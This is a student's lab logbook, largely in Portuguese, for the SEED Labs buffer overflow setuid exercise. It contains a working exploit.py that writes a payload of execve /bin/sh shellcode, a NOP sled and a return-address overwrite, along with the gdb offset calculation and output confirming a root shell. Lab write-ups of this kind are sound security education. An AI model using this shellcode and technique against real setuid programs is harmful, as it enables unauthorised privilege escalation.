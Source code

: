 # SEED Labs - Buffer Overflow Setuid Lab

## Task 1

```bash
[10/10/22]seed@VM:~/.../shellcode$ a32.out
$ id -u                                                                                                          
1000
```
```bash
[10/10/22]seed@VM:~/.../shellcode$ sudo chown root a32.out
[10/10/22]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out
[10/10/22]seed@VM:~/.../shellcode$ a32.out
# id -u                                                                                                          
0
```

## Task 2

```bash
[10/10/22]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
[10/10/22]seed@VM:~/.../code$ sudo chown root stack
[10/10/22]seed@VM:~/.../code$ sudo chmod 4755 stack
[10/10/22]seed@VM:~/.../code$ ls -l
total 32
-rwxr-xr-x 1 seed seed   270 Oct  3 05:58 brute-force.sh
-rwxr-xr-x 1 seed seed   891 Oct  3 05:58 exploit.py
-rw-r--r-- 1 seed seed   965 Oct  3 05:58 Makefile
-rwsr-xr-x 1 root seed 15908 Oct 10 07:04 stack
-rw-r--r-- 1 seed seed  1132 Oct  3 05:58 stack.c
```

## Task 3

Usando o comando `p` do debugger `gdb` foi possível obter o endereço guardado no registo `ebp` e o endereço do `buffer`. Tendo em conta que o valor do `frame pointer` é 0xffffca98, o valor do `return address` será 0xffffca98 + 4. De modo a descobrir a `distância` entre o endereço base do buffer e o return address, calculou-se a distância entre o ebp e o buffer (0xffffca98 - 0xffffca2c): 108. Uma vez que, o return address está 4 bytes acima do ebp, a `distância` é 108 + 4 = 112.

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffca98
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca2c
gdb-peda$ p/d 0xffffca98 - 0xffffca2c
$3 = 108
gdb-peda$ quit
```

O conteúdo do `shellcode[]` (código malicioso) foi substituído pelo código shellcode 32-bit, cujo tamanho é 27 bytes. Uma vez que o tamanho do array é 517, o `start` deverá ser <= 490 (517 - 27). Neste caso, colocou-se o código malicioso no final do array (start = 490) e o restante é preenchido com 0x90 (NOP´s).
O valor de `ret` calculado acima é 0xffffca98 + 8, no entanto, tendo em conta a nota 2 do guião - "the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb)(...)so the actual frame pointer value will be larger.". Sendo assim o valor de `ret` deverá ser > 0xffffca98 + 8. O valor usado foi 0xffffca98 + 200, foi obtido por tentativa e erro e a condição do resultado 0xffffca98 + nnn não conter nenhum byte a zero está garantida. 

![](./screenshots/logbook5_task3.png) Figura 1: Estrutura do badfile

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca98 + 200           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Como se pode confirmar, depois de correr o programa `stack-L1` temos acesso a uma root shell - `euid=0(root)`

```sh
[10/16/22]seed@VM:~/.../code$ ./exploit.py 
[10/16/22]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                                                             
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker
```
# CTF - Week 5

# Task 1



# Task 2
